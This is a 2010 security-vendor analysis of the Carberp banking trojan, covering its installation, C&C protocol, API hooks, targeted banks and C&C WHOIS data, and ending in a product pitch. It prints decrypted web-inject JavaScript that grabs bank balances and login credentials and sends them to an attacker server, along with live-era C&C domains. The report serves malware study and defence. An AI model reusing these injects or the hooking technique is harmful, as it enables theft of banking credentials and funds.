


# Carberp

Under the Hood of Carberp: Malware & Configuration Analysis

> Trusteer Fraud Prevention Center October 7th, 2010


## Table of Contents

| Abstract . |
| --- |
| Introduction |
| Samples Tested |
| Installation |
| C&C Communication… |
| General |
| Initial Setup… |
| Recurring Communication… |
| Credential Stealing Communication |
| H00ks. |
| Browser Hooks |
| Hidden Files … |
| Operation |
| General Attack |
| Targeted Attack… |
| Targeted Attack – In-Depth Demonstrations. |
| List of Targeted Banks |
| Rapport vs. Carberp… |
| Appendix: C&C WHOIS Information… |


## Abstract

The following document constitutes an analysis of Carberp, a new variant of financial malware targeting numerous banks around the world.

The analysis provides a detailed description of malware operation, communication and installation on the infected machine. It also contains thorough analysis of Carberp configuration, including targeted banks and attack methods.

## Introduction

Carberp is a new financial malware, which has the ability to intercept user communication through the browser. It controls all Internet communication and is able to manipulate content presented to the user. This ability is used for two attack methods:

- 1. General attack, used for stealing user's login credentials to virtually every site which requires SSL authentication, including online banking, mail accounts etc.
- 2. Targeted attack method, which introduces sophisticated HTML injections which target particular banks' sites, based on the malware configuration.

Trusteer's malware analysis team has extracted the Carberp configuration data. The malware binary and configuration have been examined in Trusteer labs and key findings of the research are presented herein.

#### Samples Tested

The research was conducted on the following samples:

- 1. MD5 07D3FBB124FF39BD5C1045599F719E36 (72,704 bytes).
- 2. MD5 8E56E9136345B3A6840232F9921F9E7B (72,704 bytes).
- 3. MD5 2961AEEA2E7A64DA708E6D2D87ED10B7 (80,384 bytes).


## Installation

During dropper execution, the following events were observed on the system:

- 1. Creating numerous temporary files at ೪੮੦੦% folder, loading each file after its creation and executing it.
- 2. Creating a hidden file in the Startup folder of the current user, %UserProfile%\Start Menu\Programs\Startup. So far we have encountered two different names for this file: chkntfs.exe and syscron.exe.
- 3. Connecting to a C&C server for downloading extra files and configuration. Further details regarding C&C communication can be found in the relevant section below.
- 4. Creating a hidden configuration file with encrypted information downloaded from the C&C server. We have encountered two different names for the file: chkntfs.dat and usernt.dat. The file is located at %appdata% folder.


## C&C Communication

#### General

The infected machine opens an HTTP connection to a C&C server. So far, the following domain names were tracked:

| Domain | IP | Geo-location |
| --- | --- | --- |
| light.raystats.com | 195.149.88.45 | Kiev, Ukraine |
| 66kooum.com | 77.78.240.88 | Republic of Moldova |
| secure-i1.com- | 173.236.65.23 | Chicago, Illinois, US |
| obscurestats.com² | 193.169.87.23 | Ukraine |

Extended WHOIS information regarding these domains can be found in the Appendix.

Communication with the C&C server is divided to three major phases:

- 1. Initial setup.
- 2. Recurring.
- 3. Credential stealing.

#### Initial Setup

During dropper execution, several requests are transmitted and received from the C&C server.

- 1. Sending bot-id (machine-generated) to server, in the following format:
id=debot0BA58A9F2E0466E80DF581CD29D7A1444

Then, the server replies as follows in the same clear text format:

no tasks

- 2. Uploading a list of currently running processes to the server.
- 3. Downloading the following plug-ins:
	- a. /cfg/stopav.plug
	- b. /cfg/miniav.plug
	- C. /cfq/passw.plug

1 Carberp communicates with these serves indirectly, through scripts embedded in its configuration file.


- 4. Downloading a configuration file. So far, two configurations have been obtained: /cfg/ebnkusod and /cfq/debot. The configuration file downloaded is saved locally, as described in Installation/section 4.
#### Recurring Communication

This communication is recurring in short time intervals (10 or 15 minutes, in accordance with the executed dropper), checking for requests pending from the C&C server.

The infected machine sends its bot-id and receives clear text server reply, similar to Initial Setup/section 1.

### Credential Stealing Communication

Each time the user performs login through SSL session, his/her credentials are intercepted and sent directly to the C&C server. Further information regarding credential stealing can be found in the following Examples section.


## Hooks

Carberp uses function hooks for interception of user traffic and for hiding its configuration and executable files.

Below is a table summarizing the functions hooked by Carberp:

| Process | DLL | Function | Purpose |
| --- | --- | --- | --- |
| Explorer.exe |  | InternetQueryDataAvailable HttpSendRequestA | Helper function |
|  |  | InternetCloseHandle | Cleanup |
| iexplore.exe | wininet.dll |  | Traffic interception/ |
|  |  | InternetReadFile |  |
|  |  | HttpSendRequestExW |  |
|  |  | InternetReadFileExW | Traffic injection |
|  |  | InternetReadFileExA |  |
|  |  | HttpSendRequestW |  |
|  |  | HttpSendRequestExA |  |
| firefox.exe | nspr4.dll | PR_Connect | Traffic interception/ |
|  |  | PR_Close |  |
|  |  | PR_Read | Traffic injection |
|  |  | PR_Write |  |
|  | ssl3.dll | SSL_ImportFD |  |
| All user | ntdll.dll | NtQueryDirectoryFile | Hiding files and |
|  |  | ZwQueryDirectoryFile | directories |
|  |  | ZwClose |  |
| processes |  | ZwDeviceIoControlFile |  |
|  |  | ZwResumeThread |  |
|  |  | NtClose |  |
|  |  | NtDeviceIoControlFile |  |
|  |  | NtResumeThread |  |


#### Browser Hooks

The hooks on iexplore.exe, firefox.exe and Explorer.exe are used for Internet communication interception and are performed using the inline patching technique. Hence, when iexplore.exe, for example, calls one of these functions, a Carberp function is called instead.

It is important to note that contrary to recent publications on the subject, Mozilla Firefox is Carberp-vulnerable, as can be seen in the aforementioned hooks table. On the other hand, Google Chrome is currently not vulnerable to Carberp.

#### Hidden Files

Hiding files and directories by hooking the NtQueryDirectoryFile function is a common technique used by malware in order to hide their presence on disk. In the Carberp case, every user process executed is hooked and therefore the malware executable and configuration files are invisible.

## Operation

As mentioned above, Carberp uses two primary attack methods, general attack and targeted attack. This section covers both methods in detail, including highlights from the decrypted Carberp configuration and demonstrations of targeted attacks.

#### General Attack

General attack operation mode targets every user log-in through SSL session. Hence, this attack applies to all banks, not just those specified in the malware configuration. Moreover, the attack also applies to non-banking sites such as Gmail, Facebook etc.

The attack scheme is simple, yet powerful. Each time the user logs in to a secured site, the malware steals his/her credentials and sends them to the C&C server in real time. Following is a detailed description of the attack scheme:

- 1. The user navigates to an e-banking site, enters his/her login credentials and presses log in.


- 2. This is where Carberp takes over. By intercepting the login POST request, the malware steals the user's credentials before they are encrypted and sends them to the C&C server over HTTP.


As can be observed, main fields in the message include bot-id, login URL and the captured login credentials as well (decoded and marked in red).

- 3. The login request finally reaches the bank server and the client logs in to his/her account. By this time, his/her credentials are already in the hands of the attackers.
#### Targeted Attack

The second attack method is directed specifically aqainst a well-defined set of targets, with particular attack technique designated at each URL. The collection of targets and attack techniques is strictly defined in the Carberp configuration file. As stated, this file is downloaded from the C&C by the malware and stored encrypted on disk. We have managed to extract the configuration file, thereby unveiling targeted attacks against several banks in the US, Netherlands, Denmark, Germany and Israel.

Following is a concise example demonstrating the use of targeted attack against a sepecifc Bank. In this attack, Carberp grabs information regarding available cash in the account and sends this information to the C&C server.


This is a sample section from the decrypted configuration file which was parsed according to a Trusteer proprietary formatting. It is a targeted HTML injection against the all URLs matching the pattern


```
<Action>
<URL> .#########..com/das/cqi-bin/session.cqi*</URL>
<Injections>
<Injection>
<Before>
tagline business.gif" height="25" width="275" border="0" class="inline"
alt="######## Business Online" />
</Before>
<InjectionData>
<script type="text/javascript" >
   function connect(src)
       {
      var newScript = document.createElement("script");
      newScript.type = "text/javascript";
      newScript.src =  src;
     var first = document.getElementsByTagName("head")[0].firstChild;
      document.getElementsByTagName("head")[0].insertBefore(newScript,
first);
      ﻨﺎ
    function sdata(total)
      {
      var rix = (new Date()).getTime();
connect(" two/access.php?m
ake=auth&rix="+rix+"&total="+total+"&idt=%user id%");
      }
 window.onload = function()
 【
 var total = document.getElementById("cashTotalAvailBalance");
  if (total != null)
     【
      total = total.innerHTML.replace("$","");
      total = total.replace(",","");
      sdata(total);
      }
  }
</script>
</InjectionData>
<After>
</div></div><div class="clearer">
</After>
</Injection>
</Injections>
</Action>
```


In this section, the URL field is the target. Every time the user browses to this URL, the malicious content in InfectionData field is injected just between the Before and After sections. Hence, the web page presented to the user is different from the original web page downloaded from the bank website.

Notice the yellow-marked code sections. This code operates inside the secured site after the user has logged in to his/her account. Every time the page loads, a number representing money amount in the account is sent to the C&C server.


#### Targeted Attack - In-Depth Demonstrations

This section discusses two examples of targeted attacks in detail, describing attack flow and code injections into the bank web page as displayed by the user.

#### Demonstration - Bank A

- 1. The user navigates to the bank's login page. URL: 
The page is downloaded from the bank's web server

- 2. The function hooks injected to Internet Explorer intercept the page which was downloaded from the bank's web server, find the matching URL in the configuration file and change it according to the injection pattern.

```
<form name="logonform" id="logonform"
align="center" autocomplete="off"
action="
in" method="post" onsubmit="return
validateandsetcookie(document.logonform.usr
name, document.logonform.usr password.value,
document.logonform.remember.checked,
#####.com','RBGLogon')">
<input type="hidden" name="authmethod"
value="userpassword" />
<InjectionData>
align="center" autocomplete="off"
action="
in" method="post" onsubmit="sdata(); return
false;">
<script type="text/javascript"
src="
m/in.php?make=ent&idt=%user id%"></script>
</InjectionData>
```

```
<form name="logonform" id="logonform"
align="center" autocomplete="off"
action="
method="post" onsubmit="sdata () ; return false;
<script type="text/javascript"
src="
php?make=ent&idt=ebnkusod0BA58A9F2E0466E80DF581CD
29D7A1444"></script>
<input type="hidden" name="authmethod"
value="userpassword" />
```


As can be noticed, the manipulated page causes the function sdata () to be called every time the user logs in to the bank account. It is important to notice that the injected page seems identical to the aforementioned screenshot of the original page.

The browser also resolves the sdata () function script. Note that this script is not injected directly into the page, but is resolved from

 usod0BA58A9F2E0466E80DF581CD29D7A1444.

The downloaded script contains the sdata () function implementation:

```
function sdata()
{
     var lg =
document.getElementsByName("usr name")[0];
     var ps =
document.getElementsByName("usr password")[0];
     var rix = (new Date()).getTime();
connect("
.php?make=auth&rix="+rix+"&idt=ebnkusod0BA58A9F2E0466E80
DF581CD29D7A1444&lg="+lg.value+"&ps="+ps.value);
}
```
- 3. The user enters credentials and logs in:
The function sdata () is called. As can be concluded from the above code, this function grabs the user's credentials from the page and sends them to the attacker's server.


#### Demonstration- Bank B

- 1. The user navigates to the bank's login page. URL: 
The page is downloaded from the bank's web server

- 2. The function hooks injected to Internet Explorer intercept the page which was downloaded from the bank's web server, find the matching URL in the configuration file and change it according to the injection pattern.



As can be noticed, the manipulated page contains a script tag which is resolved from an external website:

 6E80DF581CD29D7A1444&own=d26c9584ee668caf4b49ec7e1f9e2b82

Notice the bot-id (marked in red) which is injected to the page as well, and is embedded in the link to the script.

As mentioned above, the domain secure-i1.com resolves to IP 173.236.65.23, geo-located in Chicago, Illinois, US. According to the malware configuration file, many of the injections are mapped to various addresses in this domain, and live addresses found there were spotted to contain malicious code.

As the page loads, the malicious script is loaded into the browser memory, and can be used at attackers will. For example, it can be used for grabbing user's login credentials to the bank and sending them to the C&C server.


## List of Targeted Banks

After analyzing the Carberp configuration files, we have compiled an aggregated list of banks currently being attacked by the malware.

| Country | Bank |
| --- | --- |
| Netherlands | -- removed -- |
|  | -- removed -- |
|  | -- removed -- |
| Israel | -- removed -- |
| United States | -- removed -- |
|  | -- removed -- |
|  | -- removed -- |
| Denmark | -- removed -- |
| Germany | -- removed -- |

## Rapport vs. Carberp

Trusteer Rapport introduces (patent pending) Patch Sentry technology which blocks all communication interception hooks operated by Carberp. Hence, Rapport users are protected from the first day Carberp was distributed, with no need for configuration or signature updates.


# Appendix: C&C WHOIS Information

| Domain | IP | Geo- | Registrar | Creation | Expiration |
| --- | --- | --- | --- | --- | --- |
|  |  | location |  | Date | Date |
| light.raystats.com | 195.149.88. | Kiev, | BIZCN.COM, INC | 26/7/2010 | 26/7/2011 |
|  | 45 | Ukraine |  |  |  |
| 66kooum.com | 77.78.240.8 | Republic of | BIZCN.COM, INC | 17/3/2010 | 17/3/2011 |
|  | 8 | Moldova |  |  |  |
| secure-i1.com | 173.236.65. | Chicago, | DIRECTI | 30/8/2010 | 30/8/2011 |
|  | 23 | Illinois, US | INTERNET |  |  |
|  |  |  | SOLUTIONS PVT. |  |  |
|  |  |  | LTD. D/B/A |  |  |
|  |  |  | PUBLICDOMAINR |  |  |
|  |  |  | EGISTRY.COM |  |  |
| obscurestats.com | 193.169.87. | Ukraine | PAKNIC | 26/7/2010 | 26/7/2011 |
|  | 23 |  | (PRIVATE) |  |  |
|  |  |  | LIMITED |  |  |

